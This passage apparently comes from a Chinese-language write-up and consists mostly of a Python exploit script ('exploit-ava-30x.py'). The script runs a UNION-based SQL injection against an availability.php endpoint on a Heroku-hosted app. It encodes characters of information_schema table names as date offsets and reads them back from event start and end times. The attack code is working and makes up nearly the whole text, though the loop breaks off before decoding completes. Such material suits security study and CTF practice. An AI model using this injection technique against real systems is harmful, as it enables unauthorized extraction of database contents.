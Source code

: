 腳本如下：

``` python
# exploit-ava-30x.py
import requests
import datetime
import json
import urllib.parse
import time

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

def to_ts(raw):
  return datetime.datetime.strptime(raw, "%Y-%m-%d").timestamp()

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
start_time = '2023-01-01'
end_time = '2023-01-10'
date_count = 10
fetch_per_union = 3

start = time.time()

while True:
  unions = []
  query_time = base_time
  for i in range(date_count):
    payload = f'''
      ascii(SUBSTRING({field},{index}))*86400
      + ascii(SUBSTRING({field},{index+1}))*86400*128
      + ascii(SUBSTRING({field},{index+2}))*86400*128*128
      + {query_time}
    '''

    unions.append(f'union select 1,{query_time},{payload},1 {fr}')
    index += fetch_per_union
    query_time += 86400

  payload = " ".join(unions)
  print(payload)
  response = requests.get(f'{host}/availability.php?id=12345%20{encode(payload)}&start_time={start_time}&end_time={end_time}')
  if not response.ok:
    print('error')
    break

  data = json.loads(response.text)
  print(data)
  is_finished = False
  for item in data['events']:
    diff = to_ts(item['end']) - to_ts(item['start'])
    diff = int(diff/86400)
    is_finished = False
    if diff == 0:
      is_finished = True
      break

```